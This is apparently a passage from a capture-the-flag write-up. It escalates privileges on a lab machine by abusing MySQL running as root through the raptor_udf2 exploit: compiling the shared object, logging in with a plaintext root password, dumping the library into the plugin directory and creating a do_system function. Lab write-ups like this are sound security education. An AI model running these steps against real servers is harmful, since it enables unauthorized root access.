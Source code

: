 MySQL is running as root, and not as the mysql user. This is vulnerable to the raptor_udf exploit, which can be found [here](https://www.exploit-db.com/exploits/1518).

First, we compile the exploit:
```
svc@noter:~$ gcc -g -c raptor_udf2.c  
svc@noter:~$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc  
svc@noter:~$ ls  
app  linpeas.sh  raptor_udf2.c  raptor_udf2.o  raptor_udf2.so  user.txt  
svc@noter:~$
```

Those database creds from earlier come in handy here, as we need to be the root user to pull off this exploit:
```
mysql -u root -pNildogg36  
Welcome to the MariaDB monitor.  Commands end with ; or \g.  
Your MariaDB connection id is 7074  
Server version: 10.3.32-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04  
  
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.  
  
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.  
  
MariaDB [(none)]>
```

In the raptor exploit code, it assumes that the plugins directory is /usr/lib:
```
select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
```

But this is not the case here:
```
MariaDB [(none)]> show variables like '%plugin%';    
+-----------------+---------------------------------------------+  
| Variable_name   | Value                                       |  
+-----------------+---------------------------------------------+  
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |  
| plugin_maturity | gamma                                       |  
+-----------------+---------------------------------------------+  
2 rows in set (0.001 sec)  
  
MariaDB [(none)]>
```

Knowing this, we pull off the exploit:
```
MariaDB [(none)]> use mysql;  
Reading table information for completion of table and column names  
You can turn off this feature to get a quicker startup with -A  
  
Database changed  
MariaDB [mysql]> create table foo(line blob);  
Query OK, 0 rows affected (0.009 sec)  
  
MariaDB [mysql]> insert into foo values(load_file('/home/svc/raptor_udf2.so'));      
Query OK, 1 row affected (0.002 sec)  
  
MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';  
Query OK, 1 row affected (0.001 sec)  
  
MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';  
Query OK, 0 rows affected (0.001 sec)  
  
MariaDB [mysql]> select * from mysql.func;  
+-----------+-----+----------------+----------+  
```